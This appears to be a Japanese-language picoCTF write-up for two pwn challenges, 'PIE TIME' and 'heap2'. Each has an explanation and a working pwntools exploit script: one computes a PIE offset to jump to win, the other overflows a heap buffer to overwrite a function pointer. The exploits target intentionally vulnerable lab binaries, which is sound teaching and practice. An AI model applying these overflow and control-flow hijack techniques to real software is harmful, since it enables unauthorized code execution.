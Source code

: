 ## PicoCTF

### PIE TIME

プログラムを実行するとmain関数のアドレスが表示され、
プログラムは入力したアドレスの関数を実行することができる
win関数が存在し、ここに飛べばフラグを取得できる
→main関数とwin関数の差分を計算すれば良い

```
gef➤  b *main
Breakpoint 1 at 0x133d
gef➤  p(*main - *win)
$1 = 0x96
```

オフセットは0x96であることがわかった
つまり以下でフラグを取得できる

```
from pwn import *

#target = process("./vuln")
target = remote('rescued-float.picoctf.net',59172)

rec = target.recvline()
rec2 = rec.split(b': ')[1][:-1]

rec2_str = rec2.decode('utf-8')

value = int(rec2_str, 16)

result = value - 0x96
hex_result = hex(result)

print(hex_result)

#recv.split(b' : ')[1][:-1]
target.sendlineafter(b'Enter the address to jump to, ex => 0x12345:',hex_result)
target.interactive()
```

### heap2

・heapをA*32するとオーバーフローする
・最終的にはwin関数を呼び出せばフラグを取得できる
・4番を選択するとcheck_win関数を呼び出す

check_win関数のソースコード

```
void check_win() { ((void (*)())*(int*)x)(); }
```

#### ((void (*)())*(int*)x)();について

x が指すアドレスに格納されている整数値を関数ポインタと見なし、その関数を「呼び出す」コードです。

つまり、**オーバーフローさせてxの値にwin関数を書き込んで上げればフラグを取得できる**

ソースコード
```
from pwn import *
import time

#target = process('./chall')
target = remote('mimas.picoctf.net',54745)
binf = ELF('./chall', checksec=False)

context.log_level = 'debug'

print(p64(binf.symbols['win']).hex())

payload = b'A'*32 + p64(binf.symbols['win'])
#payload = b'A'*32 + bytes.fromhex(p64(binf.symbols['win']).hex())
print(payload)

#time.sleep(1000)

target.sendlineafter(b'Enter your choice: ',b'2')

target.sendlineafter(b'Data for buffer:',payload)

target.sendlineafter(b'Enter your choice: ',b'4')
target.interactive()
```
